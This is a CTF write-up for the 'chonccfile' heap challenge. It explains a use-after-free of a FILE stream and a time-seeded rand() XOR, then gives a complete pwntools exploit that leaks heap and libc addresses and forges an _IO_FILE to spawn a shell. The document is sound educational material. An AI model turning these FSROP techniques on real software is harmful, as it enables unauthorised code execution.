# chonccfile

**Category**: PWN  
**Points**: 498  
**Solves**: 8  
**Author**: drec  

**Challenge Description**:
Forget being a Chad; be a Choncc! A Choncc knows no canaries.

**Artifact Files** (libc and ld were both extracted from Docker image):  
[chall](./chall)  
[libc.so.6](./libc.so.6)  
[ld-linux-x86-64.so.2](./ld-linux-x86-64.so.2)  
[Dockerfile](./Dockerfile)  


## Challenge Overview



  
This program runs in the latest libc version... ouch :')

As to approach any pwn challenge, the first thing I did was simply run the binary !  
This lands us on the following menu :  



Interesting... we have 7 options to interact with the program. For anyone who has  
done quite a bit of CTFs in the past this looks a whole lot like a heap challenge.  

Let's start disassembling the program using [ghidra](https://ghidra-sre.org/) along 
with exploring each of the available options :D  

For this main menu handling it is done directly from main :  


(NOTE: This binary didn't contain symbols, I manually put them in ghidra to make it easier on the reader)  

Here the **menu_prompt()** function just prints the menu text that we saw in the console.  
Now let's explore each of the available options and their associated code !

### Create Choncc:



This function asks us for the size of our newly created choncc. This size has to follow 2 constraints:
- size must be bigger than 1 (no negative values)
- size must be smaller than MAX_SIZE (program global in *.data*)

We'll have to remember these limitations for later...  

If we pass the checks, our size input is substracted to the MAX_SIZE which means MAX_SIZE is some sort
of total memory allocation limit set to 0x200 (512 bytes) to be used by all our chonccs !  

It then creates what I like to call an "entry" chunk used to represent our new choncc in the choncc
linked list. I made a struct in ghidra for an easier read too :  

```c
struct chonc_entry {
    long size;
    char* data;
    chonc_entry* next;
};
```

The proram sets up this new entry by copying our input size in it's size field, and allocating a new chunk  
with **malloc(size)** which is our actual choncc memory. The pointer to the choncc's data in the entry gets set as well and *next* is set to 0. 

I mentionned earlier that this entry is gonna be used for a linked list. We can guess that from the following
code where the program has a stored **choncc_linked_head** symbol to store the head of the linked list. For
anyone who has some CS background it'll be very obvious the program appends the new entry to the linked list
by doing a for loop until it finds the last choncc in the list and appends our new entry at the end. If the linked list is empty (no entry at the head of the list) we set the head to be our new entry.

### View Choncc:

From now on, i'll go faster over these functions since we already know they work through a "linked list" data
structure.  



We can see here that this view function allows us to select a chunk by a number (1 based index).   
*Note that it checks for out of bounds index so nothing much to exploit on that at least.*

If the program finds the associated choncc in the linked list, it'll print it's content using **write**
This is important as write doesn't stop at null bytes, meaning the whole contents of that heap chunk
will be printed out ! This could give us some juicy memory leaks in the future *(foreshadowing moment)*

### Edit Choncc:



We have the exact same index based prompt to find the right choncc as the **view_choncc()** function.

And this time it calls read() into the choncc's data with *size* number of bytes.
So no heap overflows here !

### Remove Choncc:



Once again, we fetch the associated choncc by 1 based index and this type perform an "unlink" operation
from the linked list, after which we free the choncc's data and the choncc's entry struct.
This operation also gives the memory we used for the deleted choncc back to MAX_SIZE.

## File Operations

Now this program also gives us options to open a so called "choncc file" to save our chonccs to.
This is a little bit unusual but can (and will) be important for our exploitation.

### Open Choncc File



Aaaaah a function that is very easy to reverse... Breath of fresh air after the previous ones haha  

As we can see here, this function uses **fopen** to create a file stream to "/tmp/chonccfile" with write access. It then stores the return value (a **FILE\***) to a .bss global called **chonc_file**.

### Write Choncc File



This function literally just dumps the contents of our chonccs using **fwrite()** inside of the opened file stream from the **open_choncc_file()** function.

Other than that not much to say about this function.

### Close Choncc File



Now, this function is **WEIRD**. It first calls **fclose()** on the file stream if it is set, and proceeds to do a whole bunch of weird operations... Let's see what happens in there : 

The program enters a for loop iterating from 0 to 0x1d0 by jumps of 4. This is important since 0x1d0 is the size of an **_IO_FILE** struct. At each iteration it waits for a random delay generated by **rand()** and for each block of 4 bytes of this struct, it applies a XOR operation with a random int generated by libc's **rand()** random number generator.  

This is the main vulnerability in this application. To understand it better, let's do a short dive into how file streams are handled.  

When we create a new file stream with **fopen()**, an *_IO_FILE_plus* struct is allocated on the heap. This structure holds all the data and pointers necessary for handling buffered file IO.
When we close a file stream with **fclose()** this chunk is freed but it's data is <u>not zeroed</u>.  

This will be VERY important for our exploit as we have a lot of control over the heap with our choncc functions.  

Another thing that we must notice in this function is that after closing the file stream with **fclose()**, the *choncc_file* global is **NOT** being set to 0. Which means this is now a pointer to a <u>freed heap chunk</u>.

## Exploit Idea

The first thing that one should learn about the heap is that it's bins work in a LIFO structure. Meaning
the most recent chunk to be added to a bin will be the first one to be redistributed if the program asks for it.  

So theoretically here, after the choncc_file file stream is closed, we could create a choncc of the size of a *_IO_FILE_plus* struct to get a pointer to the old file stream's memory address !  

Another thing that I did not mention but is very important to notice is that this program only uses **malloc**
for heap allocation. And **malloc** does not zero memory when it gives back previously freed chunks. So if we
allocated a chunk of size 0x1d0 after closing the choncc_file file stream, we would effectively get whatever memory was there before ! Since the *_IO_FILE_plus* struct contains pointers to libc, this would also give us a potential libc leak.

And remember, the **choncc_file** global is still pointing to the old file stream's address (i.e pointing to our controlled heap chunk !). Then we could write our own file stream struct and with careful input, make it 
call arbitrary functions !

This is all great but how do we pass the random encryption ???

### Exploiting Unsafe Random Encryption

As CTF players, we've all probably encountered cases where random is used without using the seed and we could predict the output of the **rand()** function because of that very issue. But here this is not the case, in the main function we have the following random seed initialization : 

```c
int seed = time(NULL);
srand(seed);
```

It is one of the <u>first</u> things being ran the program. But what does it actually do ?

**time(NULL)** returns the time in seconds ince the EPOCH (commonly defined as January 1st 1970).
that time is then used as our random seed to generate all the random numbers in the program.

A very important thing here is that the time is in <u>seconds</u> which is a relatively "slow" time unit.
So an idea would be to get the time in our exploit script at the same time as we run the binary ! This way
we could generate the same numbers in our exploit script as in the binary and thus decrypt the XOR'd data.  

**Important**: Python uses a different pseudo random generator than C, therefore we will use the *ctypes* module to important libc and use the C implementation of the pseudo random generator in our script. The exploit will NOT work if you try this with python's pseudo random generator.

### Anaysis Conclusion

- The choncc's are blocks of data that are stored on the heap which we can:
   1. Create
   2. View
   3. Edit
   4. Delete
- Those choncc's have a limited total size of 512 bytes.
- We can open, write and close a file stream to "/tmp/chonccfile"
- The global file stream pointer is not properly cleaned after closing the stream
- We can write our own file structure using the LIFO structure of the heap bins

To make this exploit work we'll need:
- a heap leak
- a libc leak

### Exploit Plan

- Use the fact that malloc doesn't clear memory when redistributing chunk to get a heap leak
- Open the file stream to "/tmp/chonccfile"
- Close the file stream -> File stream's freed chunk gets encrypted with random xor
- Allocate a 0x1d8 sized chunk to get the redistributed file stream chunk
- Read it and decrypt it using the random bypass we talked about earlier
- Get libc leak from the decrypted data
- Overwrite the file structure so that fwrite will trigger system("/bin/sh")
- Use the "write choncc file" option to call fwrite and trigger our payload

## Let's start exploiting !

As I do with any "menu with options challenge", I created a basic python script to interact with each option 
from our script:  

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./chall')
context.terminal = ['alacritty', '-e']

gs = """
continue
"""
if args.REMOTE:
    io = remote("193.148.168.30", 7669)
else:
    io = process()
    if args.GDB:
        gdb.attach(io, gdbscript=gs)

libc = elf.libc
context.log_level = 'info'

def create_chonc(size: int):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b':\n', str(size).encode())

def view_chonc(number: int):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b':\n', str(number).encode())

def edit_chonc(number: int, content: bytes):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b':\n', str(number).encode())
    io.sendlineafter(b':\n', content)

def delete_chonc(number: int):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b':\n', str(number).encode())

def create_chonc_file():
    io.sendlineafter(b'> ', b'5')

def delete_chonc_file():
    io.sendlineafter(b'> ', b'6')

def write_chonc_file():
    io.sendlineafter(b'> ', b'7')
    io.sendlineafter(b']\n', b'y')

libc = elf.libc
context.log_level = 'info'

# PWN HERE

context.log_level = 'error'
io.interactive()
io.close()

```

Let's get out heap leak ! As i said this program doesn't clear anything when it redistributes chunks so we could use that to our advantage and do the following : 
- create a choncc
- free it
- create a choncc of the same size as the previous one
- read the choncc

When the choncc gets freed, it'll be linked into the tcache and thus will have some metadata in it's **fd**.
And when we reallocate this chunk, we will be able to read it's metadata and get a heap leak ! 

```py
# Get heap leak
create_chonc(0x28)
delete_chonc(1)

create_chonc(0x28)
view_chonc(1)

io.recvuntil(b': ')
heap_base = unpack(io.recv(8)) << 12
info("heap base : " + hex(heap_base))
```

Note that we have to shift the leaked address by 12 because of pointer mangling in this version of libc.



Nice ! we know have the heap's base address for any use we could need it for. 
We can get into the interesting stuff now...

Let's add some libc random implementation to our python script to set the seed at the same time as the program
and hopefully get the same seed ! This will grant us the ability to bypass the file structure's XOR encryption.

```py
from ctypes import CDLL
from time import time

libc_imp = CDLL('./libc.so.6')
libc_imp.srand(int(time()))
```

Using these lines of code, we can get the time since the epoch and set it as our random seed. Later we'll be able to call `libc_imp.rand()` to obtain the same random number as the program to decrypt the bytes.

Great ! Let's get the file stream data and decrypt it now :D

```py

create_chonc_file()
delete_chonc_file()

create_chonc(0x1d8) # get the freed file struct
view_chonc(2)

io.recvuntil(b': ')
file_data = io.recv(0x1d0) # sizeof(struct _IO_FILE)

# Now we want to decrypt the file with our random bypass

result = b''
for i in range(0, 0x1d0, 4):
    n = u32(file_data[i:i+4])
    libc_imp.rand()
    key = libc_imp.rand()
    n ^= key
    result += p32(n)

```

by applying the same XOR encryption again, the data returns to it's original form, giving us the bytes of the old *_IO_FILE_plus* struct that used to be there.

A very nice property of file structs is that they are stored in a linked list with it's head stored at the symbol *_IO_list_all*. Then they point to the next stream through the *_chain* member.

Luckily for us, this is the only file that is not a standard stream like *stdin, stdout, stderr* which means it's *_chain* member will point *_IO_2_1_stderr_*, one of the default libc streams. And you guessed it, it is obviously stored somewhere in libc.

The *_chain* member is 8 bytes long (memory address in x64) and is located at offset 0x68.
We can fetch it from our decrypted file struct with the following code 

```py
stderr = unpack(result[0x68:0x70]) # from _IO_FILE offsets to chain -> _IO_2_1_stderr_
libc.address = stderr - libc.sym._IO_2_1_stderr_ 

info("_IO_2_1_stderr_@GLIBC : " + hex(stderr))
info("libc base : " + hex(libc.address))
```



Everything seems to be working fine ! And remember, we now have a hold of the heap chunk that contains the
file structure data and is **STILL** being pointed to by the *choncc_file* global. So theoretically we can write our own file structure and make it so that **fwrite()** triggers a call to **system("/bin/sh")**

A prime target is the use of **vtables** in the *_IO_FILE_plus* struct. Unfortunately for us, since libc 2.24,
these vtables are stored at a specific part of the libc and is being checked to avoid anyone from putting their own vtable to call arbitrary functions in there. However we can still misalign it to execute a different standard libc function !

Luckily for us, hackers found out that the *_wide_data* attribute's vtable doesn't have any checks. Therefore if we manage to make libc use the *_wide_data* vtable, we could make it jump anywhere.

The way we do this is by using a technique described in [this article](https://blog.kylebot.net/2022/10/22/angry-FSROP/) by [kylebot](https://blog.kylebot.net).

I won't delve into details here since this is quite a complex subject but I highly suggest (if you are interested) to check out the previously mentionned articles and also the very awesome platform [pwn.college](http://pwn.college/) which has amazing material to learn more and practice file stream exploitation.

We can use the FileStructure() object in pwntools to facilitate the creation of fake file structures.
After some tinkering, this is the file structure I came up with :

```py
# get the address of our stream on the heap
stream = heap_base + 0x2f0

fp = FileStructure()
fp.flags = unpack(b" /bin/sh")              # we need " " at the start so that flags & _IO_NO_WRITES = 0
fp._IO_read_ptr = 0                         # 0 by default, for clarity. This will ensure /bin/sh ends with \x00
fp._lock = heap_base                        # we know that heap base starts with 0 so it's a valid lock
fp._IO_save_base = stream - 0x18            # so that _wide_data->vtable + 0x68 lands at fp->_IO_backup_base
fp._IO_backup_base = libc.sym.system        # allocbuf will land here calling system(fp)
fp._wide_data = stream - 0x98               # so that _wide_data->vtable lands at fp->_IO_save_base
fp.vtable = libc.sym.__io_vtables + 0x328   # this address + 0x38 will call _IO_wfile_overflow

# write our own file struct
edit_chonc(2, bytes(fp))
write_chonc_file() # trigger fwrite -> system("/bin/sh")

context.log_level = 'error'
io.interactive(prompt="shell> ")
io.close()

```

And here we have the final steps of our exploits, replacing the old structure with our own and
triggering fwrite() which will end up calling system("/bin/sh") through our carefully crafted file struct.

### Final Exploit

```py
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL
from time import time

libc_imp = CDLL('./libc.so.6')
libc_imp.srand(int(time()))

context.log_level = 'error'
context.binary = elf = ELF('./chall')
context.terminal = ['alacritty', '-e']

gs = """
continue
"""
if args.REMOTE:
    io = remote("193.148.168.30", 7669)
else:
    io = process()
    if args.GDB:
        gdb.attach(io, gdbscript=gs)

libc = elf.libc
context.log_level = 'info'

# PWN HERE

def create_chonc(size: int):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b':\n', str(size).encode())

def view_chonc(number: int):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b':\n', str(number).encode())

def edit_chonc(number: int, content: bytes):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b':\n', str(number).encode())
    io.sendlineafter(b':\n', content)

def delete_chonc(number: int):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b':\n', str(number).encode())

def create_chonc_file():
    io.sendlineafter(b'> ', b'5')

def delete_chonc_file():
    io.sendlineafter(b'> ', b'6')

def write_chonc_file():
    io.sendlineafter(b'> ', b'7')
    io.sendlineafter(b']\n', b'y')

# Get heap leak
create_chonc(0x28)
delete_chonc(1)

create_chonc(0x28)
view_chonc(1)

io.recvuntil(b': ')
heap_base = unpack(io.recv(8)) << 12
info("heap base : " + hex(heap_base))

create_chonc_file()
delete_chonc_file()

create_chonc(0x1d8) # get the freed file struct
view_chonc(2)

io.recvuntil(b': ')
file_data = io.recv(0x1d0) # sizeof(struct _IO_FILE)

# Now we want to decrypt the file with our random bypass

result = b''
for i in range(0, 0x1d0, 4):
    n = u32(file_data[i:i+4])
    libc_imp.rand()
    key = libc_imp.rand()
    n ^= key
    result += p32(n)

stderr = unpack(result[104:112]) # from _IO_FILE offsets to chain -> _IO_2_1_stderr_
libc.address = stderr - libc.sym._IO_2_1_stderr_ 

info("_IO_2_1_stderr_@GLIBC : " + hex(stderr))
info("libc base : " + hex(libc.address))

stream = heap_base + 0x2f0

fp = FileStructure()
fp.flags = unpack(b" /bin/sh")              # we need " " at the start so that flags & _IO_NO_WRITES = 0
fp._IO_read_ptr = 0                         # 0 by default, for clarity. This will ensure /bin/sh is null terminated
fp._lock = heap_base                        # we know that heap base starts with 0 so it's a valid lock
fp._IO_save_base = stream - 0x18            # so that _wide_data->vtable + 0x68 lands at fp->_IO_backup_base
fp._IO_backup_base = libc.sym.system        # allocbuf will land here calling system(fp)
fp._wide_data = stream - 0x98               # so that _wide_data->vtable lands at fp->_IO_save_base
fp.vtable = libc.sym.__io_vtables + 0x328   # this address + 0x38 will call _IO_wfile_overflow


# write our own file struct
edit_chonc(2, bytes(fp))
write_chonc_file() # trigger fwrite -> system("/bin/sh")

context.log_level = 'error'
io.interactive(prompt="shell> ")
io.close()
```

Running this exploit on the remote we get :



And that's a solve ! 

## Reflections

This is a very cool challenge which forces the attacker to exploit the latest versions of libc at the moment (2.39) using File Structure Exploitation. I had a lot of fun solving this especially since I just learned about file struct exploits last week at the time of writing this writeup... Therefore, I was very happy to be able to apply my newly aquired knowledge on this chall :)

I hope anyone reading this writeup learned some new stuff and happy pwning !

[Back to home](../../README.md)
